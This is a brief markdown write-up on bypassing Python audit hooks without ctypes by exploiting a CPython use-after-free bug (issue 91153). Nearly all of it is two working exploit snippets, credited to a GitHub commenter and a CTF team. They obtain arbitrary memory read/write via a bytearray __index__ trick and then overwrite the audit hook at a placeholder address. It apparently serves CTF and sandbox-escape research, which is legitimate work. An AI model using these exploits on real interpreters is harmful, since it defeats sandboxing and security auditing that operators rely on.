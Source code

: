 # Use issues/91153 to do arbitrary read/write
## Concept
By using <https://github.com/python/cpython/issues/91153>(a use-after-free), we can overwrite audit hook without `ctypes`.  
Then using brute-force/analysis library to find the offset from a function to the audit hook.
## UAF Exploits
```python
# following arbitery reading/writing exploit code from https://github.com/python/cpython/issues/91153#issuecomment-1132117665
# by chilaxan
to_write_after_free = bytearray(bytearray.__basicsize__)
class sneaky:
    def __index__(self):
        global to_corrupt_ob_exports, to_uaf
        del to_write_after_free[:]
        to_corrupt_ob_exports = bytearray(bytearray.__basicsize__)
        to_write_after_free.__init__(bytearray.__basicsize__)
        to_uaf = memoryview(to_corrupt_ob_exports)
        return -tuple.__itemsize__

to_write_after_free[sneaky()] = 0
to_corrupt_ob_exports.clear()
occupy_uaf = bytearray()

view_backing = to_uaf.cast('P')
view = occupy_uaf

view_backing[2] = (2 ** (tuple.__itemsize__ * 8) - 1) // 2
memory = memoryview(view)
# end of arbitery writing exploit code

memory[<ADDR>] = <HEX>
```
OR  
```python
# following arbitery reading/writing exploit code from https://maplebacon.org/2024/02/dicectf2024-irs/
# wrote and improved by Maple Bacon CTF Team
class UAF:
    def __index__(self):
        global memory
        uaf.clear()
        memory = bytearray()
        uaf.extend([0] * 56)
        return 1

uaf = bytearray(56)
uaf[23] = UAF()
# end of arbitery writing exploit code

memory[<ADDR>] = <HEX>
```